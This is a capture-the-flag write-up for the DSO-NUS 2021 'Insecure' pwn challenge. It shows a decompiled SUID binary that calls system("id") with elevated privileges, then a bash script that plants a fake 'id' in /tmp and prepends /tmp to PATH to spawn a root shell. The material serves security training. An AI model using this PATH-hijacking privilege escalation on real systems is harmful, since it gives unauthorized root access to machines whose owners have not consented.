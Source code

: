 ```yaml
---
title : "Insecure [Pwn]"
categories: DSO-NUS2021
---
```


Exploit a program that changes user privilege to root with `setuid()` to escalate privilege. First pwn challenge from DSO-NUS 2021.

# Challenge Description
```
Someone once told me that SUID is a bad idea. Could you show me why?

This challenge server can be accessed here:

(Any one of the options below is fine)
(Suggested access via 'nc')
nc ctf-85ib.balancedcompo.site 9999
nc ctf-sn3y.balancedcompo.site 9999
nc ctf-rv6w.balancedcompo.site 9999
nc ctf-ptb1.balancedcompo.site 9999
nc ctf-f3jj.balancedcompo.site 9999
nc ctf-4q22.balancedcompo.site 9999
nc ctf-7jca.balancedcompo.site 9999
nc ctf-ea38.balancedcompo.site 9999
nc ctf-jfi4.balancedcompo.site 9999
nc ctf-ks5n.balancedcompo.site 9999

Files (Any of the links are fine):
https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure
https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure

*Debug the Pwn challenges locally on your system before connecting to the remote challenge server to exploit and get the flag.

 >> Flag format conversion may have to be done for this challenge (Refer to notifications)
```

# Solution

Throw the binary into ghidra and navigate to the main function. This is the decompiled main function:

```c
undefined8 FUN_00400746(void)
{
  __uid_t __uid;
  __uid_t __uid_00;
  int iVar1;
  undefined8 uVar2;
  
  __uid = getuid();
  puts("I am a SUID binary and can run in varying levels of privilege!");
  puts("\nNow, I run in a less privileged context.");
  system("id");
  __uid_00 = geteuid();
  iVar1 = setuid(__uid_00);
  if (iVar1 == 0) {
    puts("\nNext, I wil run in a more privileged context.");
    system("id");
    setuid(__uid);
    puts("\nOnce I am done, as a good practice, I should return my privileges.");
    puts("And I run in a less privileged context again.");
    system("id");
    uVar2 = 0;
  }
  else {
    printf("Eh? Something went wrong leh.");
    printf("Can contact some geeks about this? Thanks!");
    perror("seteuid");
    uVar2 = 0xffffffff;
  }
  return uVar2;
}
```

There's no input taken, hmm... Since I had no idea on what to do at this point, I connected to their server via nc and looked around.

In the root directory, there's a `flag.txt` but it can only be read with root privilege. We also have access to only a handful of basic UNIX commands: `ls`, `cd`, `chmod`, `id`, `cat` `echo`, etc. They can be found in `/bin`.

Another useful information is that all the files and folders do not have write permission for the current user except for `/tmp`. So we need to perform privilege escalation by using the second `system("id")` in the program to spawn a shell with root privilege.

To do this, we can create a script in `/tmp` to replace the original `id` script such that it calls `/bin/bash` the second time it is called. To achieve this, we can execute a temporary file (a layer) during the first call. This layer file will change the `id` script to spawn shell. Then during the second call, a shell will be spawned.

Finally, to make sure that `system("id")` properly calls our script, we need to `chmod +x` and add the directory to `PATH`.

# Final Script
```bash
echo "#!/bin/bash
/tmp/layer;" > /tmp/id

echo "#!/bin/bash
echo '#!/bin/bash
/bin/bash;' > /tmp/id" > /tmp/layer

chmod +x /tmp/id

chmod +x /tmp/layer

export PATH=/tmp:$PATH

cat flag.txt
```

Flag: lost it XD
